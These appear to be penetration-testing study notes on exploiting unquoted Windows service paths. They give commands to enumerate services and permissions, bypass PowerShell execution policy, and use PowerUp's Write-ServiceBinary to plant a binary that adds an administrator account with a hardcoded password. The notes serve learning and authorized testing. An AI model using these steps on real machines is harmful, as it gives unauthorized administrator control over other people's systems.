 ```yaml
---
IP_KALI: 192.168.45.155
---
```

We can use this attack when we have Write permissions to a service's main directory or subdirectories but cannot replace files within them.

Get list of running and stopped services:
On PS:
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```

A more effective way is to use the wmic command from cmd.exe:
```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

Check access to potential locations with icacls:
```
icacls "C:\[PATH]"
```


Look for write "W" or "F" permissions

| Mask | Permissions             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |
- Add the executable to location that makes sense
- Stop and restart service


Powerup can be used to identify this vulnerability:
```
powershell -ep bypass
```
```
. .\PowerUp.ps1
```
```
Get-UnquotedService
```
The abuse function can be used as follows, default credentials added are john;Password123!:
```
Write-ServiceBinary -Name 'ReynhSurveillance' -Path "C:\Enterprise Software\Monitoring Solution"
```
```
Restart-Service [SERVICENAME]
```
Check to see if it worked:
```
net localgroup administrators
```